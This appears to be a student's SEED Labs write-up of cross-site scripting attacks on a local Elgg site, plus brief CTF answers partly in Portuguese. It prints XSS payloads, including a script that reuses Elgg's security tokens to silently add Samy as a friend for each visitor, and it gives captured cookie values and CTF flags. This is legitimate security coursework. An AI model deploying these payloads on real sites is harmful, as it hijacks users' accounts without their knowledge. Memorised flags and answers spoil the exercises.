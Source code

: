 ## Lab Environment
    - dockps
        28ed5a33457a  mysql-10.9.0.6
        4fe49638488d  elgg-10.9.0.5



## Lab Tasks

# Task 1: Posting a Malicious Message to Display an Alert Window
    - <script>alert("This is an attack!!");</script>
    - https://drive.google.com/file/d/1YhS5jqWl9HPHSxIUnx-EjoC9hoczArqL/view?usp=sharing

# Task 2: Posting a Malicious Message to Display Cookies
    - Elgg=r8drc6a1snbstlalj13oco1h51
    - https://drive.google.com/file/d/1b_giTKnTqR01A3Vm0x29-zjFaY8YUDYS/view?usp=sharing

# Task 3: Stealing Cookies from the Victim’s Machine
    - https://drive.google.com/file/d/1qv8MUW6yXtkVn0SDsgXga_uifMBsg7YW/view?usp=sharing

# Task 4: Becoming the Victim’s Friend
    <script type="text/javascript">
    window.onload = function () {

    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the HTTP request to add Samy as a friend.
    //www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1642159148&__elgg_token=tgHelIrJC7zEWT8vKpO2fg&__elgg_ts=1642159148&__elgg_token=tgHelIrJC7zEWT8vKpO2fg
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token; 

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
    </script>

    - We sent a request from another profile to Samy's profile to add him as friend and to discover his id. (https://drive.google.com/file/d/1Q3poTVhZsX9igSJ15tiSUxv_RBo2yOMr/view?usp=sharing)

    - www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1642159148&__elgg_token=tgHelIrJC7zEWT8vKpO2fg&__elgg_ts=1642159148&__elgg_token=tgHelIrJC7zEWT8vKpO2fg

    - Alice had no friends and when she opened Samy's profile they became friends without her knowledge. (https://drive.google.com/file/d/1lsMLmIokrI_iSzPYT7sRKjc_dBbRdz9d/view?usp=sharing)

    - Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?
        Lines 1 and 2 allows us to get the cookies of the person whose profile we are in. In this case, we stole Alice's credentials in order to make it look like she sent a request of friendship to Samy.

    - Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
        Yes, we can. We could ignore the frontend and use the terminal to do a curl request and send the javascript malicious code in it.


## CTF 10

# Desafio 1
    - <script> document.getElementById("giveflag").click(); </script>
    - flag: flag{1db42eb724af095654674ec583ab75e6} 

# Desafio 2
    - checksec: https://drive.google.com/file/d/1HejoVjkaPMUjDLqDLUp8upcucgAxe7IH/view?usp=sharing
        Os endereços são randomizados (PIE ENABLED), logo o endereço do buffer via ser alterado.

    - Qual é a linha do código onde a vulnerabilidade se encontra?
        A vulnerabilidade encontra-se na linha 12, quando o programa lê o nosso input.

    - O que é que a vulnerabilidade permite fazer?
        Podemos executar um bufferoverflow e fazer com que o código aponte para a shell code que queremos executar para descobrir a flag.
    - flag: flag{a72960c52c3528489bf499466853a466}

